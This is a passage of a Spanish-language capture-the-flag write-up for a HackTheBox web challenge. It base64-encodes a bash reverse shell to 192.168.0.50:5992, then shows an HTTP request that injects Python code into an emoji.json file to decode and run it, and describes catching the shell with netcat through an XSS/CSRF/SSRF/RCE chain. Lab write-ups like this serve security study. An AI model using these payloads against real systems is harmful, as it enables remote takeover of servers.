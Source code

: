Listo, ahora vamos a sobrescribir el archivo `/app/application/static/emoji.json` con un reverse shell.

{% highlight bash %}
q3rv0@raven ~/ctf/htb/web_emoji_letters$ echo "bash -i >& /dev/tcp/192.168.0.50/5992 0>&1"|base64                                                    
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuNTAvNTk5MiAwPiYxCg==

{% endhighlight %}


_HTTP Request_:
{% highlight  text %}

POST /api/admin/emoji-pack/update HTTP/1.1
Host: emoji.htb:1337
Content-Length: 127
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://emoji.htb:1337
Referer: http://emoji.htb:1337/admin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,es-AR;q=0.8,es;q=0.7
Cookie: session=6e58f080-ab17-4291-b29b-cb3e4d3f2f54
Connection: close

{"emojiData":"import os; os.system(\"echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuNTAvNTk5MiAwPiYxCg==|base64 -d | bash\")"}

{% endhighlight %}

_HTTP Response_:
{% highlight  text %}

HTTP/1.1 200 OK
Server: nginx
Date: Sat, 01 Oct 2022 01:52:30 GMT
Content-Type: application/json
Content-Length: 47
Connection: close
Set-Cookie: session=6e58f080-ab17-4291-b29b-cb3e4d3f2f54; Expires=Tue, 01 Nov 2022 01:52:30 GMT; HttpOnly; Path=/

{"message":"Emoji pack updated successfully!"}

{% endhighlight %}

Llego el momento de la verdad, levantamos un `nc` en el `5992` y le mandamos mecha con el SSRF.

![image 1](/ctf/assets/images/emoji-letters-11.png)

# XSS + CSRF + SSRF + RCE = PWNED

Todo joya, pero esto hay que chainearlo en un XSS y me quedo así, `sorry for my JavaScript language`.
